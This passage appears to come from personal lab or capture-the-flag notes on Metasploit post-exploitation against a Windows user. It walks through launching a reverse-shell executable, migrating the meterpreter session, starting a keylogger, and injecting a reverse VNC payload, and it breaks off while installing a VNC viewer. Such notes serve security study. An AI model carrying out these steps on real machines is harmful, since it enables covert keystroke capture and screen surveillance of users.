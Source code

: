 now it should be there, and you finally execute the file by doing: ".\\msf.exe" as the user and the reverse shell should have been activated:

output from where we should be:

![[Pasted image 20240607204157.png]]


now we simply want to migrate the shell into some program that is "interactive" as RDP on the user, so "1".

> ps

![[Pasted image 20240607204328.png]]

![[Pasted image 20240607204559.png]]

#### start using meterpreter commands

> keyscan_start

![[Pasted image 20240608005338.png]]


## While we are waiting for keys to be typed, lets inject a Reverse VNC Server so we can watch the screen


background the meterpreter:

> "bg"      or "background"

we will try this VNC payload:

on metasploit:

> use exploit/windows/local/payload_inject

set the payload that you can see below:

![[Pasted image 20240608012324.png]]

> show options

> set LHOST tun0

> set session 1 (the session you have active)

> set PID 2288 -> run

In this case it failes the attack cause we don't have the vncviewer pack installed:

![[Pasted image 20240608012538.png]]

try searching with:

> sudo apt search vncviewer

then try installing and use:
